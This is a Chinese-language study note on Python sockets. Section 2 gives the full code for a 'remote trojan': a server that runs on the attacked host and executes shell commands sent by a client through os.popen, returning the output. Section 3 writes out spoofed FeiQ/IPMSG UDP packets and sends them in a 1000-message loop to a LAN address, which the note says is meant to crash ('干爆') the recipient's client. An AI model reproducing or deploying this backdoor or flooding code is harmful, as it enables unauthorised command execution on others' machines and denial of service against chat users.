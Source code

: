 [TOC]



# ==网络通信与socket==

## 一、Socket

针对 TCP/IP 协议簇进行的程序封装，在 Windows和Linux均有这样的底层模块

[Python 网络编程 | 菜鸟教程 (runoob.com)](https://www.runoob.com/python/python-socket.html)

## 二、基于socket实现远程木马

[Python 网络编程 | 菜鸟教程 (runoob.com)](https://www.runoob.com/python/python-socket.html)

### 核心思想：将木马放在被攻击主机并开启作为服务器端，然后自己的主机作为攻击方（客户端）发送消息给服务器端，里面包含要执行的指令，让服务器执行指令并返回结果给客户端即可

流程：

### 1.编写服务器端

bind  是用来绑定服务器地址到一个套接字

accept  是用来接收客户端连接然后返回新的套接字，该套接字是元组形式，分别表示客户端和服务器端的连接通道以及客户端的信息



```python
def attack_talk():
    try:
        server_socket = socket.socket()
        server_socket.bind(('127.0.0.1', 5555))
        server_socket.listen()
        chanel, client = server_socket.accept()  # accept放在外面是防止accept的阻塞
        while True:
                message = chanel.recv(1024).decode()  # 先获取客户端发送的消息，判断如果数据是由 +++ 开头的，则说明这是一个指令，我需要执行该指令，并返回指令的运行结果
                if message.startswith('+++'):
                    command = message.split(',')[-1]
                    replay = os.popen(command).read()
                    chanel.send(f"命令{command}的运行结果：\n{replay}".encode())
                else:  # 否则就正常服务器与客户端对话
                    print(f"收到来自客户端的数据：{message}")
                    replay = message.replace("吗？", "!").encode()
                    chanel.send(replay)
    except:  # 这样是为了防止一个客户端断开连接时导致服务器连接也强制断开 如下我们可以确保服务器连接一直开着，且使得一个客户断开不会使得服务器也断开
        server_socket.close()
        attack_talk()

if __name__ == '__main__':
    attack_talk()
```



### 2.编写客户端

```python
import socket

client_socket = socket.socket()
client_socket.connect(('localhost',5555))
while True:
    message = input('请输入要发送的消息：').encode()
    client_socket.send(message)

    recieve = client_socket.recv(10240).decode()
    print(f"收到来自服务器的回复：{recieve}")

# client_socket.close()

```

客户端就简单很多了

创建客户端套接字连接对象，然后连接服务器端，发送消息给服务器端，并收取消息从服务器端

## 三、基于socket实现远程攻击

实验流程

我们使用python传输数据需要有哪些信息：

协议类型（TCP/UDP）端口号  IP地址

搞清楚 飞秋 传输信息使用的协议和传输数据的要求 等

![image-20240322195515918](https://gitee.com/ymq_typroa/typroa/raw/main/image-20240322195515918.png)

从上图我们看出飞秋使用UDP传输协议，端口号为2425

飞秋的协议规则为：IPMSG 

```
版本号:包编号:发送者用户名:发送者主机名:命令字:附加信息
```

先了解飞秋的命令字，在下面的连接中

[和飞秋的通讯实现 - 张云飞VIR - 博客园 (cnblogs.com)](https://www.cnblogs.com/vir56k/archive/2011/07/11/2103378.html)

用python拼接出满足 飞秋 传输报文的消息体

```python
import socket,time,os

for i in range(1000):
    # 循环放在这里确保 每次都可以建立新的客户端，用新的客户端来发送消息，这样才能干爆
    s = socket.socket(family=socket.AF_INET,type=socket.SOCK_DGRAM)  # 表示以IPv4和UDP协议惊醒通信
    s.connect(('192.168.230.133',2425))
    # s.send("nihaoma".encode())

    packetid = str(time.time())  # 包编号
    username = 'father'
    hostname = 'Ymqyyds'
    command = str(0x00000020)
    content = 'This is a message from your dad'
    message = '1.0:' + packetid + ':' + username + ':' + hostname + ':' + command + ':' + content
    s.send(message.encode())


```

然后另一个飞秋用户（192.168.230.133）就可以收到 我们写代码的这台机器发送的数据（This is a message from your dad）。

**但请注意我们写的 for 循环：放在上面，也就是放在实例化套接字的上面，可以每一次循环都重新创建套接字连接对象，相当于在给飞秋用户发送信息时，每次都以 新的好友出现，此时就很容易将飞秋干爆**，如果我们将 for 循环放在下面，即发送数据的前面，就是以一个用户发送很多条消息，这样飞秋还不至于轻易崩溃


